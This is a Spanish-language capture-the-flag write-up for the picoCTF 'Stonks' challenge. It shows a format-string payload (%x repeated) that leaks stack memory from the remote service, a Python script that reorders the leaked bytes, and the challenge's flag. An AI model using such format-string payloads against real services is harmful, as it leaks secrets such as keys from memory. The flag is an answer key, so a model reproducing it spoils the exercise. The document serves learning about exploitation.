 # Stonks

# Objetivo
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/e4d297ce964e4f54225786fe7b153b4b/vuln.c) `nc mercury.picoctf.net 20195`

# Pistas
- Okay, maybe I'd believe you if you find my API key.

# Solución
- Descargamos el codigo fuente
- Vemos que se imprime la api que introducimos sin comillas, por lo que podemos utilizar esto para navegar en la pila
- Vamos probando hasta obtener algo que nos sirva
- Al hacer esto obtenemos un cosigo en hexadecimal
```
┌──(kali㉿kali)-[~/picoctf/binary-explotation/stonks]
└─$ nc mercury.picoctf.net 20195
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Buying stonks with token:
9dff3f0804b00080489c3f7f4ad80ffffffff19dfd160f7f58110f7f4adc709dfe18039dff3d09dff3f06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3534303664303664ff98007df7f85af8f7f584409a07760010f7de7ce9
Portfolio as of Fri May 19 01:30:45 UTC 2023


3 shares of GNQX
12 shares of XY
82 shares of IYI
30 shares of W
34 shares of UBL
65 shares of GK
79 shares of EWY
153 shares of GPL
Goodbye!
                                                                                                                                                                       
┌──(kali㉿kali)-[~/picoctf/binary-explotation/stonks]
└─$ 
```
- Esto lo [convertimos](https://www.rapidtables.com/convert/number/hex-to-ascii.html) a ascii y vemos que parece ser la bandera pero en un formato extraño
```
ÿ?°H?JØÿÿÿñýXJÜpþÿ=	ßóðocip{FTC0l_I4_t5m_ll0m_y_y3n5406d06dÿ}÷øZø÷õ@v÷Þ|é
```
- Identificamos un patrón y le cambiamos el orden con un script en python
```
flag = 'ocip{FTC0l_I4_t5m_ll0m_y_y3n5406d06dÿ^x}'

for i in range(0,len(flag),4):
        print(flag[i+3]+flag[i+2]+flag[i+1]+flag[i], end='')
```
- Con esto imprime la bandera sin el formato extraño
```
┌──(kali㉿kali)-[~/picoctf/binary-explotation/stonks]
└─$ nano exploit.py             
                                                                                                                                                                       
┌──(kali㉿kali)-[~/picoctf/binary-explotation/stonks]
└─$ python exploit.py 
picoCTF{I_l05t_4ll_my_m0n3y_6045d60dTraceback (most recent call last):
  File "/home/kali/picoctf/binary-explotation/stonks/exploit.py", line 4, in <module>
    print(flag[i+3]+flag[i+2]+flag[i+1]+flag[i], end='')
IndexError: string index out of range
                                                                                                                                                                       
┌──(kali㉿kali)-[~/picoctf/binary-explotation/stonks]
└─$
```

# Bandera
picoCTF{I_l05t_4ll_my_m0n3y_6045d60d}

## Notas adicionales
| comando | descripción |
| ------ | ------ |
| xx | xx |

## Referencias
- []()